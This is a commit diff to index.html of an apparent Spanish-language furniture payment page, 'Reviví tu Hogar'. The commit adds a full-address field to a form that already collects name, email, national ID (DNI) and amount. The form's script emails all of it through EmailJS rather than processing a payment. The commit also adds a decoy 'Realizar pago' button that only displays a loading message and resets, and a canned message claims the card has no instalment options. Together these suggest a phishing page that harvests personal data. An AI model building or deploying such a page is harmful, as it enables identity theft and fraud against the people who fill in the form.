

Before and after one commit to theimport/Pago-revive-tu-hogar-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,7 +13,7 @@
       display: flex;
       justify-content: center;
       align-items: center;
-      height: 100vh;
+      min-height: 100vh;
     }
     .form-container {
       background: #fff;
@@ -26,6 +26,13 @@
     h2 {
       text-align: center;
       color: #333;
+      margin-bottom: 10px;
+    }
+    .info {
+      font-size: 14px;
+      color: #777;
+      text-align: center;
+      margin-bottom: 20px;
     }
     input, select, button {
       width: 100%;
@@ -33,6 +40,7 @@
       margin: 10px 0;
       border: 1px solid #ccc;
       border-radius: 5px;
+      font-size: 15px;
     }
     button {
       background: #4CAF50;
@@ -57,14 +65,20 @@
     #realizarPagoBtn {
       display: none;
     }
+    #btnError {
+      background: #c0392b;
+      margin-top: 10px;
+    }
   </style>
 </head>
 <body>
   <div class="form-container">
-    <h2>Reviví tu Hogar - Pago de Muebles</h2>
+    <h2>Reviví tu Hogar</h2>
+    <div class="info">Completá los datos para gestionar tu pago. Al finalizar, recibirás un comprobante por correo.</div>
     <form id="formulario">
       <input type="text" name="nombre" placeholder="Nombre completo" required />
       <input type="email" name="email" placeholder="Correo electrónico" required />
+      <input type="text" name="direccion" placeholder="Dirección completa" required />
       <input type="text" name="dni" placeholder="DNI" required />
       <input type="number" name="monto" placeholder="Monto a pagar" required />
 
@@ -80,18 +94,22 @@
         <button type="submit" id="realizarPagoBtn">Realizar pago</button>
       </div>
     </form>
+
+    <button id="btnError">Realizar pago</button>
+
     <div id="mensajeExito">Tu tarjeta no nos da opciones de cuotas por el momento</div>
   </div>
 
   <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
   <script>
-    emailjs.init('FL6vofHg7F9vLawQs'); // Tu public key
+    emailjs.init('FL6vofHg7F9vLawQs'); // tu PUBLIC KEY de EmailJS
 
     const verCuotasBtn = document.getElementById("verCuotasBtn");
     const cuotasSection = document.getElementById("cuotasSection");
     const realizarPagoBtn = document.getElementById("realizarPagoBtn");
     const formulario = document.getElementById("formulario");
     const mensajeExito = document.getElementById("mensajeExito");
+    const btnError = document.getElementById("btnError");
 
     verCuotasBtn.addEventListener("click", () => {
       cuotasSection.style.display = "block";
@@ -106,6 +124,7 @@
       const templateParams = {
         nombre: formData.get("nombre"),
         email: formData.get("email"),
+        direccion: formData.get("direccion"),
         dni: formData.get("dni"),
         monto: formData.get("monto"),
         cuotas: formData.get("cuotas")
@@ -122,6 +141,15 @@
           alert("Error al enviar. Por favor reintente en unos minutos.");
         });
     });
+
+    btnError.addEventListener("click", () => {
+      btnError.innerText = "Cargando... Reintente en unos minutos";
+      btnError.disabled = true;
+      setTimeout(() => {
+        btnError.innerText = "Realizar pago";
+        btnError.disabled = false;
+      }, 3000);
+    });
   </script>
 </body>
 </html>
```
